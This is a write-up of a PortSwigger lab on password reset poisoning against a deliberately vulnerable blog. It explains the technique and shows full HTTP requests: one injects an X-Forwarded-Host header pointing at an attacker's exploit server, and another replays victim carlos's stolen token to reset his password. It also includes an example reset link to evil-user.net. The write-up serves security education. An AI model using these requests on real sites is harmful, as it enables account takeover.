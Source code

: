 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/311fc73a-63a6-4cd4-886c-b83d0432ce58)

## Overview :

**Password Reset Poisoning -**
 Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts. 
 
 #### How this attack works ?
 
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use evil-user.net.

2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:
    
    ```http
    https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
    ```
    
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server. 
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account. 
 
References :

  - https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html
  - https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

## Solution :

The lab is a blog website,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc42a1e6-2077-48df-b2d4-98dfbb24073d)
 

Clicking on *My Account* takes us to this login page,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53b86e71-64c5-4476-9882-cd8341df296b)

When we click on forgot password, browser sends a *POST* request to `/forgot-password` along with `username=wiener` parameter.

```http
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```

After forwarding the above request, we can see the reset password link has been sent to wiener's email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/736dc80f-9efd-49b4-af4f-ce01f95dc09a)




When we click the link, enter  our new password , a *GET* request is sent to /forgot-password along with a token like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/624308f1-4933-4217-a18c-00c8f8d4706a)


```http
POST /forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA&new-password-1=newpass&new-password-2=newpass
```

And thus we've finally changed the password of wiener using the password reset link.

#### Perform password reset poisoning on carlos -


We modify the *POST* Request sent to /`forget-password` by adding an additional header `X-Forwarded-Host=<our-server.net>`  & change `username=carlos`

```http
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
X-Forwarded-Host: exploit-0aac005904405eb2810b1f5001860011.exploit-server.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos
```


Since it is given in the lab description that **user carlos will carelessly click on any links in emails that he receives**. It means he will click the link to access the forgot password page.

As guessed, we can see in the `access log` of our exploit server, the user carlos had indeed clicked the link & we've got a *GET request to /forgot-password* page which contains **carlos's token** - `Nfrrsdma8tQoaei2fh79q5H90VMtE4gX`.  

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/963b2c5f-2f9b-44c8-9693-4f6feae64e7b)

Now modify the *POST request to /forgot-password which had the token of user wiener*, change the token value to `Nfrrsdma8tQoaei2fh79q5H90VMtE4gX` (carlos's token) in both url and in body of ther request.

```http
POST /forgot-password?temp-forgot-password-token=Nfrrsdma8tQoaei2fh79q5H90VMtE4gX HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=Nfrrsdma8tQoaei2fh79q5H90VMtE4gX&new-password-1=newpass&new-password-2=newpass
```

**Our guess is that probably the password of carlos is now reset to `newpass` since we got the token value & replaced it with carlos's token.**

Lets verify it by logging in.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a3cd8aff-699c-4039-bff0-62d9567760ae)























